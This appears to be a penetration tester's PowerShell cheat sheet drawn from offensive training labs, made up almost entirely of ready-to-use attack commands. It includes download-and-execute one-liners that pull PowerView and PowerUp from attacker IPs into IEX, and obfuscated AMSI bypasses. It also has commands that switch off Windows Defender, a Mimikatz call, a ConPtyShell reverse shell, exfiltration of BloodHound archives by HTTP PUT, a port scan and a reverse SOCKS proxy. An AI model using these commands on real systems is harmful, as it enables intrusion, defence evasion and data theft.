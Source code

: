 * https://github.com/samratashok/nishang

``` a
C:\Windows\SysWOW64\WindowsPowerShell\v1.0\powershell.exe
C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe
C:\Windows\sysnative\WindowsPowerShell\v1.0\powershell.exe -ep bypass
```

* PS-Run with output
``` powershell
& .\hidden-test.exe 2>&1
```
* PS-Run without output
``` powershell
Start-Process notepad.exe
```

## PSRemoting
``` powershell
Enter-PSSession -ComputerName WS05.RASTALABS.LOCAL -Credential RASTALABS.LOCAL\NGODFREY
```
``` powershell
(new-object system.net.webclient).downloadstring('http://192.168.99.2/powerview.ps1') | IEX
invoke-webrequest http://10.10.16.29:8080/dazzleUP.exe -outfile dazzleUP.exe
invoke-webrequest http://10.10.16.14:8080/hidden-test.exe -outfile C:\windows\temp\test.exe
```
## Port Scan
``` powershell
80,8080,445,139,135,3389,1433,5985,47001 | % {echo ((new-object Net.Sockets.TcpClient).Connect(“10.10.16.29”,$_)) “Port $_ is open!”} 2>$null
```

## Test AV
``` powershell
Invoke-Expression 'AMSI Test Sample: 7e72c3ce-861b-4339-8740-0ac1484c1386'
Invoke-Mimikatz
'amsiutils'
```
``` powershell
Get-MpComputerStatus
Set-MpPreference -DisableIntrusionPreventionSystem $true -DisableIOAVProtection $true -DisableRealtimeMonitoring $true -DisableScriptScanning $true -Force -MAPSReporting Disabled
reg add "HKEY_LOCAL_MACHINE\SOFTWARE\Policies\Microsoft\Windows Defender" /v DisableAntiSpyware /t reg_dword /d 1 /f

reg query "HKEY_LOCAL_MACHINE\Software\Policies\Microsoft\Windows\Installer
```

## Create service
``` powershell
New-Service -Name "gruntsvc" -BinaryPathName '"C:\WINDOWS\System32\svchost.exe -k netsvcs"'
Start-Service -Name 'gruntsvc'
Stop-Service -Name 'gruntsvc'
Restart-Service -Name 'gruntsvc'
$service = Get-WmiObject -Class Win32_Service -Filter "Name='gruntsvc'"
$service.delete()
```

## read/write
``` powershell
IEX(Get-Content .\Invoke-ConPtyShell.ps1 -Raw); Invoke-ConPtyShell 10.0.0.2 3001
Get-Content -Path 'C:\Demo\test.txt' -Encoding Byte
```
``` powershell
$a = [IO.File]::ReadAllText("C:\Users\John\Desktop\test.txt")
[system.Convert]::toBase64string([System.text.encoding]::Unicode.getbytes($a))
```
``` powershell
[System.Text.Encoding]::Unicode.GetString([System.Convert]::FromBase64String($b))
[System.IO.File]::WriteAllText("Z:\backup\PTA\CRTE\tgt-sqladmin",$b)
```
``` powershell
$filename = "C:\tools\donut\loader.bin"
[system.Convert]::toBase64string([IO.File]::ReadAllBytes($filename)) | Clip
```


## AMSI
``` powershell
sET-ItEM ( 'V'+'aR' + 'IA' + 'blE:1q2' + 'uZx' ) ( [TYpE]( "{1}{0}"-F'F','rE' ) ) ; ( GeT-VariaBle ( "1Q2U" +"zX" ) -VaL )."A`ss`Embly"."GET`TY`Pe"(( "{6}{3}{1}{4}{2}{0}{5}" -f'Util','A','Amsi','.Management.','utomation.','s','System' ) )."g`etf`iElD"( ( "{0}{2}{1}" -f'amsi','d','InitFaile' ),( "{2}{4}{0}{1}{3}" -f 'Stat','i','NonPubli','c','c,' ))."sE`T`VaLUE"( ${n`ULl},${t`RuE} )
```
``` powershell
$a=[Ref].Assembly.GetTypes();Foreach($b in $a) {if ($b.Name -like "*iUtils") {$c=$b}};$d=$c.GetFields('NonPublic,Static');Foreach($e in $d) {if ($e.Name -like "*Context") {$f=$e}};$g=$f.GetValue($null);[IntPtr]$ptr=$g;[Int32[]]$buf = @(0);[System.Runtime.InteropServices.Marshal]::Copy($buf, 0, $ptr, 1)
```

## PS
* The native ``IncludeUserName`` need admin privilege
``` powershell
Get-Process -IncludeUserName | Format-Table Id,Username,Name,si,FileName -AutoSize
Get-Process | Format-Table Id,Name,si,FileName -AutoSize
```
``` powershell
$owners = @{}
gwmi win32_process |% {$owners[$_.handle] = $_.getowner().user}
get-process | select processname,Id,@{l="Owner";e={$owners[$_.id.tostring()]}}
```

## Applocker
``` powershell
$ExecutionContext.SessionState.LanguageMode
Get-AppLockerPolicy -Effective | select -ExpandProperty RuleCollections
```

## From service name to display name
``` powershell
powerpick Get-Service –Name "MSSQL*"
```
## DownloadExec
``` powershell
((New-Object Net.WebClient).DownloadString('http://10.10.16.29:8080/PowerUp.ps1')) | iex 
((New-Object Net.WebClient).DownloadString('http://10.10.16.29:8080/PowerUpSQL.ps1')) | iex 
((New-Object Net.WebClient).DownloadString('http://10.10.16.29:8080/Find-PSRemotingLocalAdminAccess.ps1')) | iex 
```

## PUT File
``` powershell
$filename = "C:\Users\[username]\20210208113930_BloodHound.zip"
$body = [system.Convert]::toBase64string([IO.File]::ReadAllBytes($filename))
Invoke-RestMethod -Uri http://192.168.49.108/secret.zip -Method PUT -Body $body
```
``` powershell
$a = [IO.File]::ReadAllText("Z:\myshare\backup\OSEP\labnotes\challenge6\secret.hex")
$b = [System.Convert]::FromBase64String($a)
[System.IO.File]::WriteAllBytes("Z:\myshare\backup\OSEP\labnotes\challenge6\secret.zip",$b)

```

## Net Version
``` powershell
get-childitem -path "HKLM:\SOFTWARE\Microsoft\NET Framework Setup\NDP"
```

## Formating
``` powershell
Format-List *
```

## which
``` powershell
get-command
```

## if x64
``` powershell
[Environment]::Is64BitProcess
```

## Proxy
``` a
openssl req -x509 -nodes -days 365 -newkey rsa:2048 -keyout private.key -out cert.pem
openssl x509 -in cert.pem -noout -sha1 -fingerprint | cut -d "=" -f 2 | tr -d ":"
python2 ReverseSocksProxyHandler.py 443 1080 ./cert.pem ./private.key
```
``` powershell
Invoke-ReverseSocksProxy -remotePort 443 -remoteHost 192.168.49.130 

# Go through the system proxy:
Invoke-ReverseSocksProxy -remotePort 443 -remoteHost 192.168.49.130 -useSystemProxy

# Validate certificate
Invoke-ReverseSocksProxy -remotePort 443 -remoteHost 192.168.49.130 -certFingerprint '93061FDB30D69A435ACF96430744C5CC5473D44E'

# Give up after a number of failed connections to the handler:
Invoke-ReverseSocksProxy -remotePort 443 -remoteHost 192.168.49.130 -maxRetries 10
```
